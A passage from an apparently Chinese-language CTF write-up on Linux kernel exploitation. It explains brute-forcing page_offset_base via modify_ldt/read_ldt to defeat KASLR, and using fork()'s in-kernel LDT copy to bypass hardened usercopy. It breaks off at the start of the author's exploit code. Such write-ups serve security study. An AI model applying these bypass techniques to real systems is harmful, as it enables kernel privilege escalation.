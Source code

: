 
`read_ldt()` 還能幫助我們繞過 KASLR ，這裏我們要用到 `copy_to_user()` 的一個特性：對於非法地址，其**並不會造成 kernel panic，只會返回一個非零的錯誤碼**，我們不難想到的是，我們可以多次修改 ldt->entries 並多次調用 modify\_ldt() 以**爆破內核的 page\_offset\_base**，若是成功命中，則 modify\_ldt 會返回給我們一個非負值。

不過由於 hardened usercopy 的存在，我們並不能夠直接讀取內核代碼段或是線性映射區中大小不符的對象的內容，否則會造成 kernel panic。

#### Step.II - 利用 fork 繞過 hardened usercopy

雖然在用戶空間與內核空間之間的數據拷貝存在 hardened usercopy，**但是在內核空間到內核空間的數據拷貝間並不存在類似的保護機制**，因此我們可以通過一些手段繞過 hardended usercopy。

閱讀 Linux 內核源碼，我們不難觀察到當進程調用 `fork()`  時，內核會通過 `memcpy()` 將父進程的 `ldt->entries` 上的內容拷貝給子進程：

```c
/*
 * Called on fork from arch_dup_mmap(). Just copy the current LDT state,
 * the new task is not running, so nothing can be installed.
 */
int ldt_dup_context(struct mm_struct *old_mm, struct mm_struct *mm)
{
    //...

    memcpy(new_ldt->entries, old_mm->context.ldt->entries,
           new_ldt->nr_entries * LDT_ENTRY_SIZE);

       //...
}
```

該操作**是完全處在內核中的操作**，因此不會觸發 hardened usercopy 的檢查，我們只需要在父進程中設定好搜索的地址之後再開子進程來用 read\_ldt() 讀取數據即可。

### EXPLOIT

最後的 exp 如下，這也是筆者在比賽時所用的解法：

```c
#define _GNU_SOURCE
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <asm/ldt.h>
#include <stdio.h>
#include <signal.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <ctype.h>
#include <stdint.h>

int dev_fd;

struct node {
    uint32_t idx;
    uint32_t size;
    void *buf;
};

void err_exit(char * msg)
{
    printf("[x] %s \n", msg);
    exit(EXIT_FAILURE);
}
```
